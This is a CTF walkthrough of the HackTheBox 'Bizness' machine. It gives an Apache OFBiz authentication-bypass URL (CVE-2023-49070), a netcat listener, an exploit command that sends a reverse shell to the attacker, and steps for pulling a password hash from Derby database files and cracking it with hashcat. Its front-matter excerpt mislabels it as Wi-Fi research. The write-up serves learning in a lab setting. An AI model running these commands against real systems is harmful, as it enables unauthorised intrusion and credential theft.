```yaml
---
title: "CTF Walkthrough: Bizness (HtB, Linux, Easy)"
excerpt: "A comprehensive secondary research dedicated to Wi-Fi security assessment."
header:
  teaser: /docs/assets/images/teasers/ctf/bizness.png
  og_image: /docs/assets/images/teasers/ctf/bizness.png
author_profile: true
share: false
tags:
  - hack-the-box
  - linux
  - difficulty-easy
  - apache-ofbiz
categories:
  - ctf
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Bizness" machine on HackTheBox platform that is based on Linux operating system and categorized as "Easy"
by difficulty (in reality, HtB staff has their own understading of difficulty levels, so this one can't be defined as "Easy" in the literal sense of the word!). The machine involves exploitation of CVE-2023-49070 - "Authentication Bypass Vulnerability in Apache OfBiz".

## Reconnaissance

To discover open ports and services on the machine, a classic tool **nmap** was utilized with the following commands:
```bash
nmap 10.10.11.252 -p- # scan all sports
nmap -sV 10.10.11.252 -p 80,443,8888,35309,40953 # perform version enumeration on interesting ports
```
Below are the results of nmap enumeration:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

Our ports of interest are 80 (http) and 443 (https) open. Port 8888 with SimpleHTTPServer was open by another player who already had a foothold on the system, so we will ignore it. Let's navigate to port 80 by browsing to *http://<MACHINE-IP>* (add "bizness.htb" with the IP address to resolv.conf file on your machine). The server redirects us to the HTTPs port on the machine and reveals a webpage:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/biznesssite.png" alt="">
  <figcaption></figcaption>
</figure>

If one scrolls the page down to the very end, they will find that the website is powered by **Apache OfBiz**. This will be our research vector that will prepare us for the Weaponization phase. Other Reconnaissance techniques such as subdomain enumeration, path traversal, directory bruteforcing and others led to no result.

###CVE-2023-49070

Searching for existing vulnerabilities, the eye-catching was a recent one listed under **CVE-2023-49070**. It describes an authentication bypass possible due to flawed logic in handling password change parameters in XML-RPC code. Attacks can leverage this technique to achieve Remote Code Execution on the target through Insecure Object Deserialization vulnerabilities discovered previously in Apache/Java backends.

> How CVE-2023-49070 Works
Pre-auth RCE Apache Ofbiz 18.12.09#POC:
/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y
This vulnerability concerned an authentication bypass related to the deprecated XML-RPC interface in OFBiz. Specifically the logic checked for a requirePasswordChange parameter and would return requirePasswordChange even with empty or invalid credentials. This allowed the later authentication check to be skipped.

For those interested in developing a deeper understanding, you are welcome to visit the source [article][https://thesecmaster.com/fixing-authentication-bypass-vulnerabilities-in-apache-ofbiz-cve-2023-49070-cve-2023-51467/] with CVE description.

## Weaponization

Explore GitHub for available exploits that could help us achieve foothold on the system. The are several repositories available for the CVE of interest, the exploit that has worked for the author can be downloaded from [here][https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/exploit.py]

In order to use the exploit, one has to take some time to adapt it and make it work. Firstly, it requires the use of **ysoserial**, which is a proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization. You can find the tool (filename: "ysoserial-all.jar") [here][https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar]. Place it in the <ins>same directory</ins> as the exploit downloaded previously.

Additionally, the exploit requires <ins>Java version 11</ins> to run. Install it with the following command:
```bash
sudo apt-get install openjdk-11-jre
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/java11.png" alt="">
  <figcaption>Java 11 installation.</figcaption>
</figure>

Configure Java to use Java 11:
```bash
sudo update-alternatives --config java
1 # your list may have a different order, select the number that corrisponds to Java 11
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/java11config.png" alt="">
  <figcaption>Java 11 installation.</figcaption>
</figure>

It's time to strike!

## Exploitation / Foothold

* Start a reverse shell listener with Netcat on the desired port:
```bash
nc -lnvp <port>
```

* Run the prepared exploit with the "shell" option to send a reverse shell to the Netcat listener:
```bash
python3 exploit.py https://bizness.htb/ shell <ip>:<port>
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/exploit.png" alt="">
  <figcaption>Running the exploit.</figcaption>
</figure>

If everything was configured and executed correctly, a reverse shell will be sent to the attacker's machine:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/revshell.png" alt="">
  <figcaption>Foothold achieved.</figcaption>
</figure>

### User flag

Navigate to the ofbiz user $home directory and obtain the flag:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/userflag.png" alt="">
  <figcaption>+10 points!</figcaption>
</figure>


## Privilege Escalation

It is known that we are dealing with Apache OfBiz. By analzying its official [documentantion][https://cwiki.apache.org/confluence/display/OFBIZ/Home] as well as other resources, it is possible to discover that the default database used by the application is a Derby database. To discover its location on the system, one may execute the following command:

```bash
find / -type d -iname "derby" 2> /dev/null #Find the specified directory and redirect error output to /dev/null
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/findderby.png" alt="">
  <figcaption>Database location discovered.</figcaption>
</figure>

Navigate to */opt/ofbiz/runtime/data/derby/ofbiz/seg0* directory and discover a list of .dat database files in there. The administator password hash can be discovered by searching for the string "password=" in all files with the following command:

```bash
find *.dat | xargs grep -a -i "password="
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/passwordhash.png" alt="">
  <figcaption>Administrator password hash discovered.</figcaption>
</figure>

Unfortunately, this is <ins>NOT</ins> a straight hash to crack. The challenger has to spend time to analyze the [source code][https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java] of the application's hashing function to figure out how password hash is generated and then reverse the process.
According to the source code, the password string get converted to a hexadecimal value, then to Base64 (URL-safe) with the salt specified after the hash type. In our case, the salt is "d" in the full hash string. It is possible to obtain the required hash value to crack using CyberChef. Decode the hash value from Base64 (selecting "URL Safe" from the "Alphabet" dropdown menu), then convert it to Hex and use the rule to remove the spaces for your comfort. The process is shown on the screenshot below:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/cyberchef.png" alt="">
  <figcaption></figcaption>
</figure>

Now, it has become possible to use Hashcat to crack the final hash value that was obtained. Supply it to Hashcat in the format <hash>:<salt> with the following flags:

```bash
hashcat -a 0 -m 120 <hash>:<salt> /path/to/wordlist
#-a 0 => Dictionary attack mode
#-m 120 => SHA1 hash type
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/hashcracked.png" alt="">
  <figcaption>Password discovered.</figcaption>
</figure>

### Root flag

Use discovered password to log in as **root** on the system and get the flag:

```bash
su root
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/root.png" alt="">
  <figcaption>+20 points!</figcaption>
</figure>

**Thank you for your attention and happy hacking!**
{: .notice--primary}
